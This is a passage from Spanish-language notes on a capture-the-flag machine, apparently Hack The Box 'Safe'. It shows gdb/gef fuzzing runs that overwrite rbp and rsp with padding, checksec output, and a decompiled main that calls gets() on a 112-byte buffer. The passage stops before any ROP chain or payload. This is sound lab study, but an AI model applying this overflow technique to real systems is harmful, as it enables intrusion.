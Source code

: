     - Probamos con 120 A y 8 B. /!\ cuidado que como es una maquina x64 tenemos que poner 8 B y no 4.

        ```bash
        python -c '120*"A"+8*"B"'
        AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
        AAAABBBBBBBB

        gef➤ r
        What do you want me to echo back? AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
        AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB
        #Output
        $rsp   : 0x00007fffffffde98  →  "BBBBBBBB"
        $rbp   : 0x4141414141414141 ("AAAAAAAA"?)
        $rsi   : 0x00000000004052a0  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
        ```

    - añadimos 8 C para saber donde caen la cosas despues del **rsp**

        ```bash
        python -c '120*"A"+8*"B"+8*"C"'
        AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
        AABBBBBBBBCCCCCCCC

        gef➤ r
        What do you want me to echo back? AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
        AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBCCCCCCCC
        #Output
        ```

1. Miramos las seguridades existentes del programa

    ```bash
    gef➤  checksec
    [+] checksec for '/home/s4vitar/Desktop/HTB/Safe/content/myapp'
    Canary                        : ✘ 
    NX                            : ✓ 
    PIE                           : ✘ 
    Fortify                       : ✘ 
    RelRO                         : Partial
    ```

Vemos aqui que el NX (DEP: Data Execution Prevention) esta enabled, lo que quiere decir que deshabilita la ejecucion de codigo en la pila.
Tenemos que encontrar una via alternativa.

Si recordamos, el analysis de la funccion main con **Ghidra** era la siguiente

```c
undefined8 main (void)
{
    char myVariable [112];

    system("/usr/bin/uptime");
    printf("\nWhat do you want me to echo back? ");
    gets(myVariable);
    puts(myVariable);
    return 0;
}
```

